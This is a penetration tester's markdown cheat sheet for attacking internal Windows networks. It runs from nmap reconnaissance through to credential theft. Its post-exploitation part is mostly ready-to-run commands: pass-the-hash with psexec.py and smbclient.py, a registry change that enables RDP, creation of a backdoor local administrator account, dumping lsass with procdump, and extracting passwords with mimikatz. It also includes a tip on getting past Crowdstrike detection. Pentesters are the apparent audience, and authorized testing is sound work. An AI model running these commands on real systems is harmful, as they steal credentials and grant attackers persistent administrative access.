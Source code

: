 # Internal Pentest Cheetsheet

## Recon
1) Use wireshark to listen for 30mins, once completed sift through it and try to identify hosts/interesting things.
2) Get/determine subnets in scope and add them to a file called ips.txt.
3) Run nmap ping scans to determine which hosts are up in the subnet, then full TCP/UDP scan. The below command does it all and saves at every step.
```
nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sn -iL ./ips.txt > results_all.txt && cat results_all.txt | grep up -B1 | cut -d " " -f5 | grep 10 >> cleaned_ips.txt && nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sS -sU -sC -sV -O -T4 -p- -v -n -Pn -PS -A --open -iL ./cleaned_ips.txt -oA  *CLIENT NAME*
```
4) Now you have all the up hosts, their ports etc, feed the XML into pentest-machine, it'll speed up the enumeration of large subnets.
5) Eliminate low hanging fruit
6) If user account is provided, use bloodhound or AD-Recon.ps1 to enumerate all of AD.
  Feed AD-Recon's Computers.csv into [fruityad.py](https://github.com/smit1759/cheetsheets/blob/master/fruityad.py) - it'll show you what you can pwn easily.
7) Profit

## Exploitation
1) Stop, think, am I going to break shit?
2) RECORD EVERY STEP
3) Verify your exploit will work
4) Clean up after yourself

## Post-Exploitation
1) Open RDP (Makes other exploits easier to run) - Use the Remmina client on Kali
2) Procdump lsass.exe (or import kiwi/mimikatz on MSF) for creds\
3) Investigate host
4) Check if its a constrained delegation host
5) Pray you've dumped DA's creds

## Useful shit

#### Use eternalblue_psexec - the others hardly work

### Dont always have to crack the hash, maybe pass it??
```
psexec.py -hashes LM:NTLM DOMAIN/User@IP
smbclient.py -hashes LM:NTLM DOMAIN/User@IP
```
MSF Allows you to use the NTLM hash in the password field in exploit/windows/smb_psexec
Don't forget that native upload (Target 3) works if powershell is disabled on the box

### Enable RDP from CMD
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Create localadmin
```
net user *username* *password* /add
net localgroup administrators *username* /add
net localgroup "Remote Desktop Users" *username* /add
```

### Procdump LSASS for creds
This creates a memory dump using the procdump sysinternals tool.
(Crowdstrike doesnt block procdump.exe but blocks procdump64.exe no idea why)
#### 32bit
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
#### 64bit
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`
#### Mimikatz Extaction
```
sekurlsa::minidump lsass.dmp
sekurlsa::passwords full
```
